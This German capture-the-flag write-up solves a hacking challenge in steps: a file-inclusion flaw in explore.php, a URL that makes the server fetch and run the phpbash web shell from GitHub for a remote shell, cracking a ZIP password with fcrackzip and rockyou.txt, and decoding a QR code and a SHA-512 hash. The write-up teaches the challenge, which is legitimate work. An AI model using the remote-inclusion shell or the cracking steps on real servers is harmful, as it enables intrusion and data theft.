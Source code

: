 # Solution of [HC 0x0e](https://challenges.the-morpheus.de) from [The Morpheus Tutorials](https://the-morpheus.de)

### 1. Analyse der Webseite
Um auf das Impressum oder das Gästebuch zuzugreifen wird die Datei explore.php mit dem GET Parameter file aufgerufen, das wird im HTML Quellcode deutlich.
```html
...
<li class="nav-item"><a class="nav-link" href="explore.php?file=impressum.html">Impressum</a></li>
<li class="nav-item"><a class="nav-link" href="explore.php?file=guests.php">Gästebuch</a></li>
...
```

Auch die `robots.txt` kann hilfreich sein. In diesem Fall sollen Suchmachinen die Datei explore.php nicht indexieren.
```
Disallow: explore.php
```

### 2. Finden und Ausnutzen der Sicherheitslücke (local file inclusion) in der Datei `explore.php`
- Wenn man die Datei ohne das GET Parameter `file` aufruft, gibt es die Fehlermeldung:
```
missing get parameter "file"
```

- Beim versuch auf nicht HTML/PHP Dateien zuzugreifen erscheint eine Fehlermeldung das die Dateiendung (extension) nicht erlaubt ist.

- Da PHP Datei erlaubt sind, kann versucht werden auf eine externe (nicht auf diesem Server liegende) Datei zuzugreifen. In diesem Beispiel wird eine [PHP WebShell](https://github.com/Arrexel/phpbash) verwendet.

[http://185.244.192.170:20006/explore.php?file=https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php](http://localhost:8080/explore.php?file=https://raw.githubusercontent.com/Arrexel/phpbash/master/phpbash.php)


- Nun hat man eine Interaktive Bash Shell. Die Aufgabenstellung verrät das sich im Homeverzeichnis eines Benutzers eine ZIP Datei befindet.


### 3. ZIP Datei herunterladen und entschlüsseln
Es gibt verschiedene Möglichkeiten die Datei herunterzuladen. Am einfachsten ist, die Datei in `/var/www/html` zu kopieren und mit dem Browser darauf zuzugreifen.

Da die ZIP Datei mit einem Passwort geschützt ist muss dieses erst durch einen Directory Angriff mit der bekannten Wordlist [rockyou.txt](http://downloads.skullsecurity.org/passwords/rockyou.txt.bz2) und einem Tool wie fcrackzip herausgefunden werden.
```
$ fcrackzip -D -u -p rockyou.txt secret.zip
PASSWORD FOUND!!!!: pw == sunshine
```

### 4. Inhalt der ZIP Datei analysieren und in QR Code umwandeln. (Texte by @youreMine)
#### 4.1 Erkennen des Binärcodes
Man erkennt den QR Code sobald man den Text in gleichgroße Absätze aufteilt.

#### 4.2 Script zum Umwandeln der Binärdatei in einen QR Code erstellen.
```python3
from PIL import Image
import textwrap

with open("input_binary_or_not.txt", "r") as f:
    string = f.read()

converted = []

for row in textwrap.wrap(string, 530)[0::10]:
    converted.append(row.replace("0", " ")[0::10])
    print(row.replace("0", " ")[0::10])

img = Image.new('RGB', (len(converted[0]), len(converted)), "white")
pixels = img.load()

for y in range(img.size[0]):
    for x in range(img.size[1]):
        if converted[x][y] == "1":
            pixels[y, x] = (0, 0, 0)

img.save("output_qr.png")
```

Anschließend kann man den QR Code in der Datei `output_qr.png` scannen und enthält die Ausgabe:
```
a336f671080fbf4f2a230f313560ddf0d0c12dfcf1741e49e8722a234673037dc493caa8d291d8025f71089d63cea809cc8ae53e5b17054806837dbe4099c4ca=sha512(text)
```

![QR Code Scanner](https://i.imgur.com/PW9Mkpb.jpg)

### 5. Hash in Text umwandeln
Der gefundene Hash kann anschließend über das [Hashtoolkit](http://hashtoolkit.com/reverse-hash/?hash=a336f671080fbf4f2a230f313560ddf0d0c12dfcf1741e49e8722a234673037dc493caa8d291d8025f71089d63cea809cc8ae53e5b17054806837dbe4099c4ca) oder über Hashcat in ein Text zurückentwickelt werden.

Der mit `sha512` gehashte Text lautet: `mypassword`
